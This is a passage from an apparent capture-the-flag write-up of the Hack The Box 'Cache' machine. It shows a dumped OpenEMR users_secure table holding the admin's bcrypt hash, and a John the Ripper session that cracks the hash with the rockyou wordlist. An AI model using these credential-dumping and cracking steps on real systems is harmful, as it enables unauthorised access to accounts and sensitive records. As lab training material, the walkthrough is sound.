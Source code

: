 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2015.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2015.png)

I dump the `users_secure`

## Getting Shell as www-data:

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2016.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-cache/Untitled%2016.png)

```bash
Database: openemr
Table: users_secure
[1 entry]
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| id   | salt                           | username      | password                                                     | last_update         | salt_history1 | salt_history2 | password_history1 | password_history2 |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
| 1    | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | 2019-11-21 06:38:40 | NULL          | NULL          | NULL              | NULL              |
+------+--------------------------------+---------------+--------------------------------------------------------------+---------------------+---------------+---------------+-------------------+-------------------+
```

Cracked the hash using John

```bash
root@w0lf:~/CTF/HTB/Boxes/Cache# john --wordlist=/usr/share/wordlists/rockyou.txt hash.john 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxx           (?)
1g 0:00:00:00 DONE (2020-05-19 13:41) 1.694g/s 1464p/s 1464c/s 1464C/s caitlin..felipe
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
